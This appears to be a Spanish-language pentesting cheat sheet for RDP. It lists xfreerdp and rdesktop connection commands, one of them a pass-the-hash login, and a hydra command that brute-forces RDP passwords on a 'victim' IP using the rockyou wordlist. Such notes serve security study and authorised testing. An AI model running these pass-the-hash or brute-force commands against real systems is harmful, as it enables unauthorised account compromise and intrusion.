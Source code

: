 ## Conectarnos al cliente 22

```
xfreerdp [/d:dominio] /u:<usuario> /p:<password> /v:<IP>
xfreerdp [/d:dominio] /u:<usuario> /pth:<hash> /v:<IP> # con hash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
```

## Fuerza bruta

```
hydra -l <usuario> -P /usr/share/wordlists/rockyou.txt rdp://<ip victima>
```